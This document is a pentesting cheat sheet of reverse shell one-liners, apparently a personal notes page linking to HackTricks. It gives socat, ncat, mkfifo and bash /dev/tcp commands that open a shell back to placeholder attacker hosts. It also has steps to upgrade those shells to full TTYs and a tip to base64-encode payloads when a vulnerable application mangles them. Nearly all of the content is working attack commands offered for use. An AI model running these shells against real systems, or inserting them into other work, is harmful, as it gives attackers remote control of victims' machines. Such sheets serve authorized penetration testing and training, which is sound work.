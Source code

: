 # Shells

{% embed url="https://book.hacktricks.xyz/shells/shells/linux" %}
Normal Shells
{% endembed %}

{% embed url="https://book.hacktricks.xyz/shells/shells/full-ttys" %}
Full TTY Shells
{% endembed %}

## Socat TTY Shell

Do this for a full socat shell, no need to upgrade it. You need socat installed or a socat static binary for this, though.

On kali:

```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

On the victim machine:

```
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:YOUR_IP_ADDRESS_HERE:4444
```

Once the connection is made, you probably want to increase the terminal size (run in the reverse shell on the victim machine):

```
stty rows 57 cols 211
```

## Ncat

Listen to port 8001 on attacker machine:

```
sudo nc -lnvp 8001
```

Run ncat on the victim machine:

```
ncat ATTACKER_IP_HERE 8001 -e /bin/bash
```

**Note: The command is ncat, not nc or netcat. There is a difference!**

## Mkfifo

`sh`-based mkfifo reverse shell:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP_HERE ATTACKER_PORT_HERE >/tmp/f
```

## Bash

The classic bash-based reverse shell:

```
/bin/bash -i >& /dev/tcp/TargetIP/TargetPort 0>&1
```

**Note:** If the payload doesn't work because redirection or ampersand symbols behave weird in the vulnerable application, then base64 encoding the payload often works well.

## Upgrading Normal Shells to TTY shells

### Switch From ZSH To Bash

**Warning**: This doesn't work if your attacking machine uses zsh!

You can temporarily switch to bash:

```
exec bash --login
```

You can confirm you're using bash with:

```
ps -p $$
```

### Upgrade the Shell Using Python

Run this in the reverse shell to upgrade it. Don't worry if your terminal turns weird temporarily.

```
python -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```

### &#x20;Upgrade the Shell Without Python

```
script -qc "/bin/bash -i" /dev/null
CTRL+Z
stty raw -echo
fg
export TERM=xterm 
```
